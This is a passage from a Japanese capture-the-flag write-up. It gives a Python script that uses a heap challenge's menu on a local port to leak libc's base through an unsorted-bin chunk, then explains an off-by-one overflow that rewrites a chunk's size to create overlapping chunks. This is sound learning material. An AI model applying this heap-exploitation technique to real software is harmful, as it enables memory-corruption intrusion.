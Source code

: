 分かる方がいたら是非教えてください。
```python
from ptrlib import *

def create_quote(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("Length: ")
    sock.sendline(str(size))
    sock.recvuntil("Content: ")
    sock.send(data)

def edit_quote(index, data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))
    sock.recvuntil("Content: ")
    sock.send(data)

def show_quote(index):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))
    sock.recvuntil("Quote: ")
    return sock.recvline().rstrip()

def delete_quote(index):
    sock.recvuntil("> ")
    sock.sendline("4")
    sock.recvuntil("Index: ")
    sock.sendline(str(index))

libc = ELF("./libc.so.6")
sock = Socket("127.0.0.1", 2005)

create_quote(0x1000, 'A')
create_quote(0x40, 'B')
delete_quote(0)
create_quote(0x40, 'A' * 8)
addr_unsortedbin = u64(show_quote(0)[8:])
libc_base = addr_unsortedbin - libc.symbol("main_arena") - 1664
print(hex(libc.symbol("main_arena")))
dump("&unsorted_bin = " + hex(addr_unsortedbin))
dump("libc base = " + hex(libc_base))
```

さて、次にoff-by-oneの脆弱性を上手く使います。
0x??8バイトmallocで確保すれば、次のチャンクのprev_sizeは確保したチャンクで使うことができます。
その上で1バイトオーバーフローできるので、次のチャンクのサイズを書き換えられます。
例えばもともとサイズ0x21だったチャンクのサイズを0x71にした後にそのチャンクをfreeすると、チャンクはサイズ0x71のfastbinsに繋がれます。
したがって、次にサイズ0x68とかでmallocすると先程freeしたチャンクを使うことができます。
一方、freeしたチャンクの次のチャンクは新しくmallocされたチャンクのサイズ内に存在するので、次のチャンクは完全に操作できます。
これはOverlapと呼ばれる手法だそうです。
